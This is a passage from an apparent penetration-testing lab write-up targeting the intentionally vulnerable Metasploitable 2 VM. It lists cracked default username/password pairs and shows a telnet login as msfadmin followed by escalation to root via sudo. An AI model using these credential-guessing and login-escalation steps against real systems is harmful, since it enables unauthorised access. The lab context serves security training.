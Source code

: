 This provided several basic passwords that could then be used to break into the system, e.g. via the standard SSH service.

| Username | Password |
| --- | --- |
| sys | batman |
| klog | 123456789 |
| msfadmin | msfadmin |
| postgres | postgres |
| user | user |
| service | service |

### telnet

Next, now that I had gotten a few passwords for the system, I turned to the telnet service to attempt to login directly to the system (e.g. using credentials `msfadmin` / `msfadmin` as shown on the Message of the Day banner), testing and confirming, that `msfadmin` had root access to the system:

```
root@kali:~# telnet target
Trying 172.16.243.143...
Connected to target.
Escape character is '^]'.
                _                  _       _ _        _     _      ____  
 _ __ ___   ___| |_ __ _ ___ _ __ | | ___ (_) |_ __ _| |__ | | ___|___ \
| '_ ` _ \ / _ \ __/ _` / __| '_ \| |/ _ \| | __/ _` | '_ \| |/ _ \ __) |
| | | | | |  __/ || (_| \__ \ |_) | | (_) | | || (_| | |_) | |  __// __/
|_| |_| |_|\___|\__\__,_|___/ .__/|_|\___/|_|\__\__,_|_.__/|_|\___|_____|
                            |_|                                          


Warning: Never expose this VM to an untrusted network!

Contact: msfdev[at]metasploit.com

Login with msfadmin/msfadmin to get started


metasploitable login: msfadmin
Password:
Last login: Wed Mar 21 14:31:57 EDT 2018 on tty1
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
No mail.
msfadmin@metasploitable:~$ id
uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin)
msfadmin@metasploitable:~$ hostname
metasploitable
msfadmin@metasploitable:~$ sudo su -
[sudo] password for msfadmin:
root@metasploitable:~# id
```
